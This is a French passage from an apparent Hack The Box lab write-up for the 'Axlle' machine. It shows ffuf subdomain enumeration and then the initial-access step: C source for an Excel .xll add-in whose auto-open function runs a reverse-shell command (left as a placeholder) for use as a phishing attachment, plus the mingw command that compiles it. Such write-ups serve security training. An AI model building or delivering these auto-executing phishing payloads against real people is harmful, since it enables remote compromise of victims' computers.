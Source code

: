 Notre tentative d'énumération des sous-domaines est tout aussi infructueuse.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://axlle.htb -H "Host: FUZZ.axlle.htb" -ic -fs 10228
```

![subdomain enumeration attempt](/images/HTB-Axlle/ffuf_axlle.png)

## Accès initial

Nous avons appris précédemment que les pièces jointes que nous envoyons à `accounts@axlle.htb` doivent être en format excel, mais nous ne pouvons pas utiliser les macros puisqu'elles sont désactivées. Une autre façon de créer des e-mails de phishing est d'utiliser des fichiers `xll`.

> Les fichiers `.xll` sont des fichiers Excel Add-In utilisés pour étendre les fonctionnalités de Microsoft Excel.

Sur [ce site](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec) nous trouvons un exploit appelé `XLL - EXEC` que nous pouvons utiliser pour obtenir un reverse shell en envoyant un email avec une pièce jointe `.xll`. La première étape consiste à ajouter un reverse shell à l'exploit. 

```C
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("PowerShell#3 from revshells.com", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Nous compilons ensuite le programme C dans une bibliothèque partagée.

```
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll phishing.c -luser32
```

![xll compilation](/images/HTB-Axlle/xll_compilation.png)
